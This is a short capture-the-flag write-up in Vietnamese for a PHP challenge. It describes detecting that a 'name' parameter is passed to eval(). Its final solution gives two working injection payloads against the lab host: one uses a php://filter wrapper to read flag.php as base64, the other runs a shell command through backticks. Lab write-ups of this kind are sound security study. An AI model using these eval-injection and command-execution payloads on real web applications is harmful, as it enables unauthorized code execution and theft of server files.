 # giới thiệu
Cũng không có gì ngoài 1 cái ảnh nhưng được gợi ý ở đây là ngay ở phần tên và tên file trên trang web /xchall.php .
# solution
 Đây là 1 bài php và có thể là command injection  
Bài này cũng phải tìm param như bài trước sau đó thực hiện injection  
Khi thay đổi parameter từ ?name= sang ?name[]= điều đó làm thay đổi parameter từ string sang array điều này gây ra lỗi và thể hiện ra rằng các giá trị của parameter đang được chuyển tới hàm eval()
Tiếp theo sử dụng các công cụ dirscan để tìm ra cờ là flag.php .Sử dụng kĩ thuật **php wrapper** để lấy bài flag
final solution  

```/xchal.php?name=".include($_GET['a']);$name="&a=php://filter/convert.base64-encode/resource=flag.php```  
or```
http://34.18.3.149:8000/xchal.php?name=`%22%26%26+var_dump(`base64%20flag.php`);%23;````
# Lưu ý sau khi giải những bài sau
